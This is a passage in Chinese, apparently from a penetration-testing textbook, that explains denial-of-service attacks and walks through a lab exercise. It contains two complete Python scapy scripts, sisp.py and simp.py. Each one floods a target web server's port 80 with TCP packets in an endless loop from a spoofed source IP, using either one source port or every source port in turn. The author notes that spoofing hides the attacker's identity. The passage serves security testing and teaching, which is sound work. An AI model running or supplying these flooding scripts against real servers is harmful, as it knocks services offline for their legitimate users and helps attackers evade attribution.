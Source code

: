 # 引入 DoS 和 DDoS

在本节中，我们将讨论一种最致命的攻击，称为拒绝服务攻击。此攻击的目的是消耗机器或网络资源，使其无法供预期用户使用。通常，攻击者在每次其他攻击失败时使用此攻击。这种攻击可以在数据链路、网络或应用层进行。通常，web 服务器是黑客的目标。在 DoS 攻击中，攻击者向 web 服务器发送大量请求，目的是消耗网络带宽和机器内存。在**分布式拒绝服务**（**DDoS**攻击中，攻击者从不同 IP 发送大量请求。为了执行 DDoS，攻击者可以使用特洛伊木马或 IP 欺骗。在本节中，我们将进行各种实验以完成我们的报告。

## 单 IP 单端口

在这次攻击中，我们使用单个 IP（可能是伪造的）从单个源端口号向 web 服务器发送大量数据包。这是一种非常低级的 DoS 攻击，这将测试 web 服务器的请求处理能力。

以下是`sisp.py`的代码：

```
from scapy.all import *
src = raw_input("Enter the Source IP ")
target = raw_input("Enter the Target IP ")
srcport = int(raw_input("Enter the Source Port "))
i=1
while True: 
  IP1 = IP(src=src, dst=target)
  TCP1 = TCP(sport=srcport, dport=80)
  pkt = IP1 / TCP1
  send(pkt,inter= .001)
  print "packet sent ", i
  i=i+1
```

我使用 scapy 编写了这段代码，希望您熟悉这段代码。前面的代码要求三件事：源 IP 地址、目标 IP 地址和源端口地址。

让我们检查攻击者机器上的输出：

![Single IP single port](graphics/8583OT_06_09_new.jpg)

单端口单 IP

我使用了一个伪造的 IP 来隐藏我的身份。您必须发送大量数据包来检查 web 服务器的行为。在攻击过程中，尝试打开托管在 web 服务器上的网站。不管是否有效，将你的发现写在报告中。

让我们检查服务器端的输出：

![Single IP single port](graphics/8583OT_06_10.jpg)

服务器上的 Wireshark 输出

此输出显示我们的数据包已成功发送到服务器。用不同的序列号重复此程序。

## 单 IP 多端口

现在，在这个攻击中，我们使用一个 IP 地址，但使用多个端口。

在这里，我已经编写了`simp.py`程序的代码：

```
from scapy.all import *

src = raw_input("Enter the Source IP ")
target = raw_input("Enter the Target IP ")

i=1
while True: 
  for srcport in range(1,65535): 
    IP1 = IP(src=src, dst=target)
    TCP1 = TCP(sport=srcport, dport=80)
    pkt = IP1 / TCP1
    send(pkt,inter= .0001)
    print "packet sent ", i
    i=i+1
```
